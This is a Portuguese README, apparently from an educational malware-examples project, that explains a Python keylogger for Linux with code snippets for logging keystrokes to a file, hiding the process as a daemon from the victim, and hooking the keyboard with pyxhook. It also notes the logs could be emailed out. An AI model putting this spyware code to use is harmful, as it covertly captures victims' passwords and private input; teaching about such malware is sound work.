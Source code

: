 # Spyware

Existem muitas maneiras de espionar a vítima. Nosso **spyware** é representado pelo **keylogger**, um programa simples que monitora as teclas pressionadas no teclado e pode ver tudo o que você digita. Este **keylogger** é implementado no arquivo `keylogger.py`.

#### Demonstração de comportamento

Não precisamos de nenhuma preparação específica antes da execução do keylogger (`./keylogger.py`). Podemos observar que após a execução nada aconteceu e podemos digitar novos comandos, assim como no caso de pressionarmos apenas a tecla `Enter`. Agora você pode fazer em seu sistema o que quiser. Para a demonstração, você pode abrir um navegador e digitar algo como `Passwd` representando sua senha em potencial, assim como faria em qualquer página de login de sua mídia social.

Agora você pode ver que na mesma pasta que nosso **keylogger** está localizado um novo arquivo `activity.log`. Observando o arquivo você pode ver que ele contém todas as teclas que você pressionou em seu teclado após a execução, incluindo sua senha `Passwd`. O invasor pode acessar facilmente esses arquivos e modificar o keylogger para enviá-los em um endereço de e-mail específico ou com uma combinação de diferentes tipos de malware, ele pode obter acesso direto a eles via rede.

```
Key: P
Key: a
Key: s
Key: s
Key: w
Key: d
```

A criação do **keylogger** é um processo muito simples, conforme descrito abaixo e qualquer pessoa pode fazê-lo apenas com um conhecimento básico de programação e compreensão de sistemas operacionais. É por isso que devemos ser sempre cuidadosos quando executamos qualquer arquivo incomum ou não confiável.

#### Como funciona?

 - Em primeiro lugar, configuramos nosso logger. Podemos especificar o arquivo no qual devem ser armazenados os dados, bem como o formato da mensagem.
   ```python
   logging.basicConfig(
       level=logging.DEBUG,
       filename='activity.log',
       format='Key: %(message)s',
   )
   ```
 - Então temos que obter o manipulador do arquivo de log. Explicaremos o porquê no próximo passo.
   ```python
   handler = logging.getLogger().handlers[0].stream
   ```
 - Para tornar nosso spyware mais difícil de ser detectado pela vítima, queremos que ele seja executado em segundo plano como um **daemon**.
   Para saber mais sobre daemons, consulte [o guia de daemons](https://kb.iu.edu/d/aiau). Para este propósito nós
   usará um módulo Python padrão `daemon` que nos permitirá daemonizar nosso **keylogger**.
   Quando o daemon for criado, perderemos conexões com todos os manipuladores de arquivos como `stdout` ou mesmo
   nosso arquivo de log, a menos que especifiquemos que os arquivos devem ser preservados. Por isso obtivemos
   manipulador de arquivo de log na etapa anterior. No contexto do nosso daemon oculto, agora podemos criar o
   keylogger e inicie sua atividade.
   ```python
   # Daemonize the process to hide it from the victim.
   with daemon.DaemonContext(files_preserve=[handler]):
       # Create keylogger.
       keylogger = Keylogger('SimpleSpyware')
       # Start logging activity of the user.
       keylogger.start_logging()
   ```
  - Para obter os _key press events_ podemos usar um módulo python para Linux chamado `pyxhook`. Se nós
    criaria um keylogger para Windows, devemos usar o módulo `pyHook`, mas sua interface é
    muito parecido. Criamos um **gerenciador de ganchos**, que gerenciará o tratamento de eventos e nos permitirá
    definir um retorno de chamada para esses eventos. Callback é no nosso caso uma função que será chamada cada vez que um novo
    evento é obtido (__keydown_callback_). A única coisa que esse método faz é registrar a chave em nosso
    arquivo especificado `activity.log`.
    ```python
    hook_manager = pyxhook.HookManager()
    # Assign callback for handling key strokes.
    hook_manager.KeyDown = self._keydown_callback
    # Hook the keyboard and start logging.
    hook_manager.HookKeyboard()
    hook_manager.start()
    ```
